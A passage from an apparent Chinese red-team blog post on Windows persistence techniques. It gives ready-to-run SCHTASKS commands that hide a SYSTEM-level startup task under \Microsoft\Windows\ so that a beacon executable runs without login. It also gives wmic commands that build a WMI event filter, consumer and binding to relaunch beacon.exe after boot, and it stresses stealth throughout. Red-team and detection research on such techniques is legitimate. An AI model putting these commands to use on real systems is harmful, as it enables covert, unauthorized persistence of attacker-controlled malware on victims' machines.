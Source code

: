 ```
                 /EC System /MO *[System/EventID=101]
    ==> 文件路径中可以加入空格，但需要加上两组引号，
        一组引号用于 CMD.EXE，另一组用于 SchTasks.exe。用于 CMD
        的外部引号必须是一对双引号；内部引号可以是一对单引号或
        一对转义双引号:
        SCHTASKS /Create
           /tr "'c:\program files\internet explorer\iexplorer.exe'
           \"c:\log data\today.xml\"" ...
```

“计划任务程序库”中也是有路径的，Windows初始状态在根目录中是没有计划任务的，如下图：

![](https://xzfile.aliyuncs.com/media/upload/picture/20200803142311-ce121c4a-d551-1.jpeg)

当然子目录中也是没有计划任务的：

![](https://xzfile.aliyuncs.com/media/upload/picture/20200803142319-d31fbdb4-d551-1.jpeg)

![](https://xzfile.aliyuncs.com/media/upload/picture/20200803142328-d81bf170-d551-1.jpeg)

计划任务都被放在了最内层目录里面，因此为了确保隐蔽性，我们也可以遵守Windows默认的规范在“\Microsoft\Windows\”下面新建我们的子目录和计划任务。示例命令如下：  
`SCHTASKS /Create /RU SYSTEM /SC ONSTART /RL HIGHEST /TN \Microsoft\Windows\evil\eviltask /TR C:\Users\hunter\Desktop\evil.exe`  
无需登录即可收到beacon：

![](https://xzfile.aliyuncs.com/media/upload/picture/20200803142341-dfb74c7c-d551-1.jpeg)

在进程树中，恶意进程是被taskeng.exe即任务计划程序引擎拉起的，隐蔽性弱于DLL服务，但强于自启注册键。  
但是，大坑又来了，我们发现SCHTASKS命令功能并不完整，很多配置项是无法操作的，比如不支持同时创建多个触发器，不支持修改“条件”和“设置”选项卡中的功能。如下：

![](https://xzfile.aliyuncs.com/media/upload/picture/20200803142354-e78c1f0e-d551-1.jpeg)

![](https://xzfile.aliyuncs.com/media/upload/picture/20200803142401-ebd756fa-d551-1.jpeg)

这些选项都是任务创建时的默认状态，也就是说我们的计划任务不会在睡眠唤醒时启动，断开交流电源自动停止，超过3天自动停止。而这些高级选项却不支持用命令行配置，查了一下微软社区，官方给的回复竟然是这样的：

![](https://xzfile.aliyuncs.com/media/upload/picture/20200803142411-f1a17a5c-d551-1.jpeg)

哭笑不得...对于正常用户使用起来确实没问题，但对于红队来说，我们不方便操作GUI啊！当然也可以通过制作DLL模块或exe直接调用WINAPI来操作，但那还需要额外再上传一个文件，效率稍低。因此计划任务这个持久化的路子只能作为一个保险，并不能完全依赖。  
此外还有一个有些相似的利用点——组策略。在启动脚本处可以执行cmd脚本或ps脚本从而执行任意命令，但由于命令行版本的组策略编辑器功能太过受限，就不再做展开（如果可以登录桌面的话直接去gpedit.msc去配置启动脚本即可持久化，且隐蔽性较高）。

## 0x05 WMI

权限要求：未降权的管理员权限。  
我们可以认为WMI是一组可以直接与Windows操作系统交互的API，由于这是操作系统自带的工具，无需安装，因此也是权限维持的好帮手。  
由于WMI的事件会循环执行，为确保不会无限弹shell，可以使用系统启动时间来限制（只要触发延时可以落在限定区间即可，有些机器启动慢因此起始时间调高些）。示例命令如下：

```
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="evil", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 310"

wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="evilConsumer", ExecutablePath="C:\Users\hunter\Desktop\beacon.exe",CommandLineTemplate="C:\Users\hunter\Desktop\beacon.exe"

wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"evil\"", Consumer="CommandLineEventConsumer.Name=\"evilConsumer\""
```
